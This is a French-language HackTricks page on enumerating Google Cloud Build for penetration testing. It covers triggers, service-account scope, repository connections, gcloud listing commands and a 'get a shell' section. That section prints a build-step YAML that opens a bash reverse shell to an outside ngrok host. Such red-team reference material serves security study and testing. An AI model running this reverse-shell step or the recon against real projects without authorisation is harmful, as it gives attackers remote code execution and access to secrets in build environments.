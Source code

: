 # GCP - Enumération de Cloud Build

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## Informations de base

Google Cloud Build est une plateforme CI/CD gérée qui **automatise la construction de logiciels** et les processus de publication, s'intégrant aux **dépôts de code source** et prenant en charge une large gamme de langages de programmation. Il permet aux développeurs de **construire, tester et déployer du code automatiquement** tout en offrant la flexibilité de personnaliser les étapes de construction et les flux de travail.

Chaque Déclencheur Cloud Build est **lié à un Dépôt Cloud ou connecté directement à un dépôt externe** (Github, Bitbucket et Gitlab).

{% hint style="success" %}
Je n'ai pas trouvé de moyen de voler le jeton Github/Bitbucket à partir d'ici ou des Dépôts Cloud car lorsque le dépôt est téléchargé, il est accessible via une URL [https://source.cloud.google.com/](https://source.cloud.google.com/) et Github n'est pas accessible par le client.
{% endhint %}

### Événements

Le Cloud Build peut être déclenché si :

* **Pousser vers une branche** : Spécifiez la branche
* **Pousser une nouvelle étiquette** : Spécifiez l'étiquette
* **Demande de tirage** : Spécifiez la branche qui reçoit la PR
* **Invocation manuelle**
* **Message Pub/Sub** : Spécifiez le sujet
* **Événement de webhook** : Exposera une URL HTTPS et la requête doit être authentifiée avec un secret

### Exécution

Il y a 3 options :

* Un yaml/json **spécifiant les commandes** à exécuter. Généralement : `/cloudbuild.yaml`
* Seule option pouvant être spécifiée "en ligne" dans la console web et dans l'interface en ligne de commande
* Option la plus courante
* Pertinente pour l'accès non authentifié
* Un **Dockerfile** à construire
* Un **Buildpack** à construire

### Autorisations SA

Le **Compte de service a la portée `cloud-platform`**, il peut donc **utiliser tous les privilèges.** Si **aucun SA n'est spécifié** (comme lors de la soumission), le **SA par défaut** `<num-projet>@cloudbuild.gserviceaccount.com` sera **utilisé.**

Par défaut, aucune autorisation n'est donnée mais il est assez facile d'en donner :

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Approbations

Il est possible de configurer un Cloud Build pour **exiger des approbations pour les exécutions de construction** (désactivé par défaut).

### Connexions et Dépôts

Des connexions peuvent être créées via :

* **GitHub :** Il affichera une invite OAuth demandant des autorisations pour **obtenir un jeton Github** qui sera stocké dans le **Gestionnaire de secrets.**
* **GitHub Enterprise :** Il demandera d'installer une **GithubApp**. Un **jeton d'authentification** de votre hôte GitHub Enterprise sera créé et stocké dans ce projet en tant que secret du **Gestionnaire de secrets.**
* **GitLab / Enterprise :** Vous devez **fournir le jeton d'accès API et le jeton d'accès API de lecture** qui seront stockés dans le **Gestionnaire de secrets.**

Une fois une connexion générée, vous pouvez l'utiliser pour **lier les dépôts auxquels le compte Github a accès**.

Cette option est disponible via le bouton :

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Notez que les dépôts connectés avec cette méthode ne sont **disponibles que dans les Déclencheurs utilisant la 2e génération.**
{% endhint %}

### Connecter un Dépôt

Ce n'est pas la même chose qu'une **`connexion`**. Cela permet **différentes** façons d'**accéder à un dépôt Github ou Bitbucket** mais **ne génère pas un objet de connexion, mais génère un objet de dépôt (de 1ère génération).**

Cette option est disponible via le bouton :

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Stockage

Parfois, Cloud Build **générera un nouveau stockage pour stocker les fichiers du déclencheur**. Cela se produit par exemple dans l'exemple que GCP propose avec :
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Un bucket de stockage appelé [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) est créé pour stocker un fichier `.tgz` avec les fichiers à utiliser.

### Obtenir un shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Énumération

Vous pourriez trouver des **informations sensibles dans les configurations de construction et les journaux**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Élévation de privilèges

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Accès non authentifié

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post-exploitation

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
